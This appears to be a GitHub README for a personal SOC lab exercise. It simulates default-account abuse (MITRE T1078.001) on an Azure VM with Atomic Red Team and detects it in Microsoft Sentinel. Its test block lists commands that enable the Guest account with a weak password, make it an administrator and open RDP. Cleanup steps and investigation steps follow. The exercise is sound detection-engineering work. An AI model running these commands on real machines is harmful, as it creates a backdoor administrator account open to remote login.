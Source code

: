 # T1078.001 — Valid Accounts: Default Accounts

**MITRE ATT&CK Mapping:**  
- **Tactic:** Initial Access  
- **Technique:** T1078.001 — Valid Accounts: Default Accounts  
- **Link:** <a href="https://attack.mitre.org/techniques/T1078/001/" target="_blank" rel="noopener noreferrer">MITRE ATT&CK T1078.001 ↗️</a>

---

## 🧪 Atomic Red Team Simulation by Me

This test is part of my personal SOC detection engineering and investigation workflow.  
I’m manually simulating a **default account abuse scenario** on an **Azure VM**, writing the detection logic in **Microsoft Sentinel**, and confirming end-to-end incident response capability.

&nbsp;

> **Safety Notice:**  
> All testing and simulation is performed strictly within a controlled lab environment (Azure VM in a Cyber Range) that I fully manage. **Never run these techniques on production systems.**


## 📑 Quick Links

* [SOC Investigation Log & Timeline](./soc-investigation-log.md)

## 🎯 Objective

* Simulate abuse of the default `Guest` account to gain local admin + RDP access.
* Trigger a custom detection rule in Microsoft Sentinel.
* Confirm an incident is created.
* Begin triage and investigation like a real SOC analyst.

---

## 🧰 Tools & Lab Environment

| Tool / Platform                     | Purpose                                             |
| ----------------------------------- | --------------------------------------------------- |
| **Microsoft Sentinel**              | Detection rules + Incident management               |
| **Log Analytics Workspace**         | Ingests Windows logs from VM                        |
| **Microsoft Defender for Endpoint** | Endpoint telemetry (optional, enabled if onboarded) |
| **Azure Virtual Machine**           | Victim host for test (Windows OS)                   |
| **PowerShell / CMD**                | Manual execution of Atomic test                     |
| **Event Viewer**                    | Local log validation                                |
| **KQL (Kusto Query Language)**      | Custom query logic for Sentinel analytics rules      |

> 🧪 The test is run **manually** in a Cyber Range VM I fully control.

---

## ⚙️ Atomic Test Details

### ✅ Test 1 — Enable Guest + RDP + Admin

* **Technique:** T1078.001  
* **Platform:** Windows  
* **Atomic GUID:** `99747561-ed8d-47f2-9c91-1e5fde1ed6e0`

#### Manual Execution:
```cmd
net user guest /active:yes
net user guest Password123!
net localgroup Administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /t REG_DWORD /d 1 /f
````

---

### ✅ Test 2 — Activate Guest Only

* **Atomic GUID:** `aa6cb8c4-b582-4f8e-b677-37733914abda`

```cmd
net user guest /active:yes
```

---

## 🧼 Cleanup

```cmd
net user guest /active:no
net localgroup Administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /f
```

---

## 🧠 My Detection Workflow

1. Create a **custom Sentinel rule** using KQL to detect:

   * Guest account activation (Event ID 4722)
   * Group membership change (Event ID 4732)
   * Registry changes related to RDP
2. Run the test manually on the victim VM.
3. Monitor Sentinel → confirm **incident is created**.
4. Investigate the alert using full SOC workflow.

---

## 🕵️ SOC Investigation Log

[Jump to Detailed Log & Timeline](./soc-investigation-log.md)

* Review entities: host, user, account, IP
* Check `SecurityEvent` logs in Sentinel
* Look for Defender alerts or RDP telemetry
* Validate Guest was added to `Administrators`
* Look for any follow-up attacker actions
* Document findings

---

## 📍 Forensic Artifacts

| Artifact Type        | Expected Evidence                            |
| -------------------- | -------------------------------------------- |
| Windows Events       | 4722 (enabled account), 4732 (group change)  |
| Registry             | RDP keys modified (AllowTSConnections, etc.) |
| Network Traffic      | Port 3389 activity (if RDP attempted)        |
| Process/Command Logs | `net user`, `net localgroup`, `reg add`      |

---

## ✅ Outcome Checklist

1. [ ] Sentinel rule created
2. [ ] Atomic test run on Azure VM
3. [ ] Incident successfully triggered
4. [ ] Investigation completed
5. [ ] VM cleaned up or reverted

---

## 📚 References

* <a href="https://attack.mitre.org/techniques/T1078/001/" target="_blank" rel="noopener noreferrer">MITRE ATT&CK - T1078.001 ↗️</a>
* <a href="https://github.com/redcanaryco/atomic-red-team" target="_blank" rel="noopener noreferrer">Atomic Red Team - GitHub ↗️</a>
* <a href="https://learn.microsoft.com/en-us/azure/sentinel/" target="_blank" rel="noopener noreferrer">Microsoft Sentinel Documentation ↗️</a>
* <a href="https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/" target="_blank" rel="noopener noreferrer">Microsoft Defender for Endpoint Documentation ↗️</a>

---

## 📓 Detailed Investigation Log & Timeline

> *See [soc-investigation-log.md](./soc-investigation-log.md) in this folder for the full analyst log, timeline, artifacts, screenshots, and triage details for this test.*

---

